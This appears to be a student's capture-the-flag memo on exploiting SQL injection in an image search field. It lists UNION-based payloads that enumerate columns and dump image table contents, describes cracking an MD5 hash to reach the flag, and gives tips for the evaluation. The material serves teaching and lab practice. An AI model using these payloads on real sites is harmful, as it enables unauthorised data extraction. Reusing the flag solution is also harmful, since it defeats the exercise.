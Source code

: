 # 🖼️ SQL Injection – Image Search Field – MEMO

## 📌 Breach Summary

This vulnerability targets an input field (image search) that is vulnerable to **SQL injection**. The web application does not sanitize user input properly, allowing malicious SQL queries to be executed on the backend.

By injecting SQL into the search field, we can either:
- List available database records
- Reveal hidden images
- Extract sensitive data
- Trigger errors that leak info (Boolean or error-based SQLi)

---

## ✅ Step-by-Step Guide

### 1. 🔎 Locate the Search Field
- Navigate to: `http://<target-ip>/`
- Go to the **image gallery** or **search by title** feature.
- Find the input field to search images by keyword.

### 2. 🧪 Test for SQL Injection
In the search bar, test classic payloads:

- Use '1 OR 1=1 UNION SELECT NULL, NULL--' to get the columns
- Use '1 AND 1=2 UNION SELECT table_name, column_name FROM information_schema.columns' to get columns for images
- Use '1 AND 1=2 UNION SELECT id, CONCAT(url, title, comment) FROM list_images' to get all the info (screenshot 'sql')
- Copy the code, use md5 to decrypt (the result is 'albatroz'), then sh256 will give us the flag.

### 3. 💬 What to Say During Evaluation
- Describe what SQL injection is and how input should be sanitized.
- Explain how this type of injection lets you bypass logic or leak data.
- Clarify the meaning of each payload you used.
- Show how you discovered the flag and what you learned from it.

### 4. 📚 References
- OWASP A1: Injection
- SQL Injection Cheatsheet: https://portswigger.net/web-security/sql-injection/cheat-sheet
- Tools used: Browser, optionally sqlmap (not allowed for automation in eval), Burp Suite (manual testing only)
